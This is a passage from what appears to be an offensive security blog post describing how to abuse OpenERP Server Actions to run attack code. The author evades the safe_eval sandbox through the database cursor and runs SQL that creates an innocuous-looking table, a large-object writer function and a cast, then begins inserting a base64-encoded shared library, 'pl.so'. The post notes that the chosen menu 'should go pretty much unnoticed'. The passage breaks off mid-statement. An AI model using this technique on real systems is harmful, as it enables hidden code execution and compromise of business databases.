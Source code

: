 Now the real fun begins.  You go to Settings → Technical → Actions → Server Actions, and click Create.  For the name, put whatever you want, and for Base Model, pick ir.actions.server (this will associate it with this menu, which should go pretty much unnoticed).  

Under Python Code, we'll enter in the attack code.  We can see that we are very limited in what functionality we can use, so we can't just insert a one line Meterpreter script.  Everything put in the code snippet will be run with OpenERP's safe_eval, which blacklists most modules after compiling bytecode.  We are locked down to only using the objects listed.  The database cursor ("cr") has a function called "execute", which will let us execute arbitrary SQL commands, though.

![Server Action](/images/OpenERPServerAction.jpg)

Using this, we use the following code

{% highlight python %}
cr.execute(''' 
CREATE TABLE res_support ( bar oid, id SERIAL, name varchar(20), CONSTRAINT id PRIMARY KEY (id) ) WITHOUT OIDS; 
''') 
cr.execute(''' 
create or replace function blob_write(lbytea bytea) 
   returns oid 
   volatile 
   language plpgsql as 
$f$ 
   declare 
      loid oid; 
      lfd integer; 
      lsize integer; 
begin 
   if(lbytea is null) then 
      return null; 
   end if; 

   loid := lo_create(0); 
   lfd := lo_open(loid,131072); 
   lsize := lowrite(lfd,lbytea); 
   perform lo_close(lfd); 
   return loid; 
end; 
$f$; 
''') 
cr.execute(''' 
CREATE CAST (bytea AS oid) WITH FUNCTION blob_write(bytea) AS ASSIGNMENT; 
''') 


cr.execute(''' 
INSERT INTO res_support (bar, name) VALUES (decode('<60 pages of base64 code>', 'base64'), 'pl.so'); 